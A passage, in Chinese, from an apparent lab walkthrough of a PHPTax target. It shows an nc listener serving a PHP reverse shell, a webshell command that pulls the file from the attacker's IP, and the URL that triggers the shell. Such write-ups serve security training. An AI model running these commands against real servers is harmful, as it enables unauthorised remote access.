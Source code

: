 rce.php

接下来，我使用了一个包含在 Kali】下的反向 shell，但也在这里找到了。

`wget`和`curl`不在服务器上，所以我用我的 webshell 用`nc`把文件拖到服务器上。

在我的盒子上:

```
$ nc -lvp 1234 < php-reverse-shell.php
```

> -l 监听连接
> -v 表示详细连接
> -p 指定端口
> <以在连接时打印文件内容

在 webshell 中:

```
/rce.php?cmd=nc 192.168.15.141 1234 > php-reverse-shell.php
```

> 若要将传入的数据导入服务器上的新文件中

![](img/2413cb980b33d8795fe6627e0ab1121f.png)

NC php-reverse-shell.php

反向外壳可以通过在浏览器中调用它的路径来调用。

```
http://192.168.15.150:8080/phptax/data/php-reverse-shell.php
```

![](img/e5a7d73d973c0a3de54a08634b4b289d.png)
